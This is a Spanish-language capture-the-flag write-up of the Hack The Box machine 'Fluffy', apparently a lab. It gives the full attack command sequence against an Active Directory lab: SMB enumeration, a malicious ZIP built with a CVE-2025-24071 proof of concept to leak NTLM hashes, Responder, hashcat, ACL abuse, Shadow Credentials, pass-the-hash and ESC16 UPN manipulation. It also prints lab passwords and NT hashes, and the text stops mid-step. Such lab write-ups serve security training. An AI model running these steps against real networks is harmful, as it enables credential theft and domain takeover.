# Fluffy — Hack The Box

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Windows (Active Directory)
**Autor de la máquina:** No confirmado en las capturas (dato de HTB no verificado con certeza)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · Enumeración SMB con credenciales dadas · **CVE-2025-24071** (fuga de hash NTLM vía `.library-ms` al extraer un ZIP) · Responder · Hashcat (NetNTLMv2) · Abuso de ACLs de Active Directory (`bloodyAD`) · **Shadow Credentials** (`certipy-ad shadow auto`) · Pass-the-hash con Evil-WinRM · **ESC16** (extensión de seguridad deshabilitada en ADCS) · Manipulación de UPN → Administrator

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración](#2-enumeración)
3. [Acceso inicial](#3-acceso-inicial)
4. [Obtención de shell](#4-obtención-de-shell)
   - [Escalada de privilegios](#escalada-de-privilegios)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Comprobamos la disponibilidad del host:

```bash
ping -c 1 10.129.72.203
```



Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.72.203
```



Apoyándonos en una herramienta propia de enumeración que resume la salida de Nmap:

```bash
enum-nmap AllPorts
```



> 💡 19 puertos abiertos, entre ellos **53, 88, 389, 445, 464, 636, 3268, 3269, 5985 y 9389** — el conjunto clásico de un **controlador de dominio de Active Directory** (DNS, Kerberos, LDAP/LDAPS, SMB, Global Catalog, WinRM).

Escaneo de versión y scripts por defecto sobre los puertos detectados:

```bash
nmap -sS -Pn -sCV -T5 -n -p53,88,139,389,445,464,593,636,3268,3269,5985,9389,49667,49689,49690,49699,49704,49714,49734 -oN Ports 10.129.72.203
```



Los certificados LDAPS confirman el dominio y el nombre del controlador:

```
Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
```

> 💡 Dominio **`fluffy.htb`**, controlador de dominio **`DC01`**. Como es habitual en pentests internos reales simulados en HTB, la máquina se empieza con credenciales de un usuario de dominio ya dadas: **`j.fleischman` / `J0elTHEM4n1990!`**.

## 2. Enumeración

Añadimos la resolución del dominio:

```bash
echo "10.129.72.203 DC01.fluffy.htb fluffy.htb" >> /etc/hosts
```



Enumeramos los recursos compartidos SMB con las credenciales dadas:

```bash
smbclient -L //10.129.72.203/ -U j.fleischman
```



```
ADMIN$   Disk   Remote Admin
C$       Disk   Default share
IPC$     IPC    Remote IPC
IT       Disk
NETLOGON Disk   Logon server share
SYSVOL   Disk   Logon server share
```

El share **`IT`** es de interés inmediato. Nos conectamos y listamos su contenido:

```bash
smbclient //10.129.72.203/IT -U j.fleischman
smb: \> ls
smb: \> get Everything-1.4.1.1026.x64.zip
smb: \> get KeePass-2.58.zip
smb: \> get Upgrade_Notice.pdf
```



Abrimos el PDF descargado:




> 💡 El documento es un aviso interno de parcheo del departamento de IT, con una tabla de vulnerabilidades pendientes de aplicar. Entre ellas, **`CVE-2025-24071`** marcada como **Crítica** — una fuga de hash NTLM al extraer un ZIP que contiene un fichero `.library-ms` malicioso, sin necesidad de abrir nada.

## 3. Acceso inicial

Clonamos la prueba de concepto pública de la CVE:

```bash
git clone https://github.com/0x6rss/CVE-2025-24071_PoC.git
```





> 💡 El propio README del PoC explica el mecanismo: el Explorador de Windows inicia automáticamente una solicitud de autenticación SMB al **extraer** (no al abrir) un `.library-ms` incluido dentro de un `.rar`/`.zip`. El README también apunta que Microsoft renombró posteriormente esta CVE a **CVE-2025-24054**.

Generamos el ZIP malicioso, apuntando al nombre del fichero señuelo y a nuestra IP de atacante:

```bash
python3 poc.py
Enter your file name: arabot
Enter IP (EX: 192.168.1.162): 10.10.15.31
```



En otra terminal, ponemos **Responder** a escuchar en la interfaz de la VPN:

```bash
sudo responder -I tun0
```



Subimos el `exploit.zip` generado al share `IT` (con permisos de escritura):

```bash
smbclient //10.129.72.203/IT -U j.fleischman
smb: \> put exploit.zip
```



En cuanto el equipo de IT revisa/extrae el fichero, Responder captura la autenticación NTLMv2 de otro usuario del dominio:



```
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:...
```

Confirmamos el formato del hash y lo crackeamos con hashcat contra `rockyou.txt`:

```bash
hashid -m "<hash>"
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```





```
p.agila:prometheusx-303
```

## 4. Obtención de shell

Con las credenciales de `p.agila`, enumeramos sus grupos con `bloodyAD`:

```bash
bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host 10.129.72.203 get object "p.agila" --attr memberOf
```



`p.agila` pertenece a **`Service Account Managers`**. Comprobamos sus miembros:

```bash
bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host 10.129.72.203 get object "service account managers" --attr member
```



Comprobamos qué objetos puede escribir nuestro usuario:

```bash
bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host 10.129.72.203 get writable
```



> 💡 `p.agila` tiene **OWNER** y **DACL: WRITE** sobre el grupo **`Service Accounts`** — puede modificar sus propios permisos de control de acceso y, por tanto, añadirse a sí mismo como miembro.

Nos añadimos al grupo:

```bash
bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host 10.129.72.203 add groupMember 'service accounts' p.agila
```



Repetimos la consulta de objetos escribibles: la pertenencia al grupo ahora nos da escritura sobre dos cuentas de servicio clave:

```bash
bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host 10.129.72.203 get writable
```



```
certificate authority service   WRITE
winrm service                   WRITE
```

Sincronizamos el reloj con el controlador de dominio (Kerberos exige poca tolerancia de desfase horario):

```bash
sudo net time set -S 10.129.72.203
```


Con escritura sobre `ca_svc` y `winrm_svc`, abusamos de **Shadow Credentials** con `certipy-ad` para extraer sus hashes NT sin conocer ni cambiar sus contraseñas:

```bash
certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account winrm_svc
certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc
```




```
NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
NT hash for 'ca_svc'   : ca0f4f9e9eb8a092addf53bb03fc98c8
```

Con el hash de `winrm_svc`, pass-the-hash directo con Evil-WinRM:

```bash
evil-winrm -i 10.129.72.203 -u 'winrm_svc' -H '33bd09dcd697600edf6b3a7af4875767'
```



Shell obtenida. Localizamos la primera flag:

```
cd Desktop
dir
```



`user.txt` (34 bytes) confirmado en el escritorio de `winrm_svc`.

### Escalada de privilegios

Con las credenciales de `ca_svc`, buscamos plantillas y CAs vulnerables en el entorno ADCS:

```bash
certipy-ad find -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.72.203 -vulnerable -enabled -stdout
```



```
Certificate Authorities
  0
    CA Name            : fluffy-DC01-CA
    ...
    [!] Vulnerabilities
      ESC16             : Security Extension is disabled.
```

> 💡 **ESC16**: la CA `fluffy-DC01-CA` tiene deshabilitada la extensión de seguridad `szOID_NTDS_CA_SECURITY_EXT` (vía `1.3.6.1.4.1.311.25.2` en `Disabled Extensions`), que es la que normalmente vincula un certificado emitido al SID del objeto que lo solicitó. Sin ella, un certificado con un **UPN** (`userPrincipalName`) arbitrario se acepta igualmente para autenticar como ese principal — basta con poder cambiar el UPN de una cuenta que controlamos.

Cambiamos temporalmente el UPN de `ca_svc` a `administrator`:

```bash
certipy-ad account update -username "p.agila@fluffy.htb" -p "prometheusx-303" -user ca_svc -upn 'administrator'
```



Solicitamos un certificado como `ca_svc` usando la plantilla por defecto `User` — el certificado emitido llevará el UPN `administrator`:

```bash
